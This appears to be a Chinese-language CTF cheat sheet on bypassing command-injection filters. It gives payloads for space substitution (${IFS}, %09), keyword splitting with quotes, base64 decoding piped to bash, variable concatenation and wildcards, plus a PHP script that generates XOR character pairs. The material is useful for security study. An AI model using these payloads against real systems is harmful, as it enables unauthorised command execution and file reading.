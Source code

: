 # Bypass (绕过)

[TOC]

---

### 多个命令执行

- `;`
- `\n   (%0a)`



### 空格Bypass

在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。

- **${IFS}**
- $IFS$9

可使用${IFS}代替空格。

```php
cat${IFS}flag.txt
cat$IFS$1flag.txt
cat${IFS}$1flag.txt
```

- **重定向符绕过(<>)**

```php
cat<>flag.txt
cat<flag.txt
```

- **%09(需要php环境)**

php环境下web输入%09等效于空格

```php
cat%09flag.txt
```

- **`%0a`换行符**



### 文件读取

(1)more:一页一页的显示档案内容
(2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
(5)tail:查看尾几行
(6)nl：显示的时候，顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容



## 关键字Bypass

### 单双引号

- 单引号----`''`
- 双引号---`""`
- 反斜杠--- `\`

我们可以通过`ca''t ca""t c"a"t ca\t`这样来bypass



### 编码绕过

#### Base64

```php
echo xxxx|base64 -d|bash
```

1. 使用反引号包含base64解码后的命令

```php
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d
```

2. 将base64解码后的命令通过管道符传递给bash

```php
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```



### 变量拼接

使用shell变量拼接被黑名单限制的关键词

```php
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```



### 通配符绕过

- `?`通配符匹配单个字母
- `*`通配符匹配多个字母
- `[x-x]` or  `{x,x,x,x}`



### $1

```php
ca$1t fl$1ag.t$1xt
```



## 异或

### 异或脚本php

> 获取于网上的资源

```php
<?php
$myfile = fopen("text.txt", "w");  //新创建一个文件，也就是rce_or.txt，给他写的权限
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i); //ascii的前16个字符的十六进制应该是01，02，所以在前缀加‘0’
		}
		else{
			$hex_i=dechex($i);  //前16个后面的就不用加0了
		}
		if($j<16){
			$hex_j='0'.dechex($j);   //同理上方
		}
		else{
			$hex_j=dechex($j);      //同理上方
		}
		$preg ='/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";     //如果有符合条件的就筛掉，输出空格
    }
  
		else{             //可以使用的字符如下
		$a='%'.$hex_i;    //十六进制前加百分号就变成了URL编码格式
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));  //urldecode函数是解URL编码，把他们变成字符串，这里是字符串进行按位或运算，按位或运算后，可以得到新的字符，如%21和%00进行按位或就变成了!,这样我们就可以使用感叹号,就类似于合成新的字符
		if (ord($c)>=32&ord($c)<=126) {          //ord函数是将字符变成ASCII码
			$contents=$contents.$c." ".$a." ".$b."\n";     //每次到这里都写入刚刚建立的文本内
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
?>
```

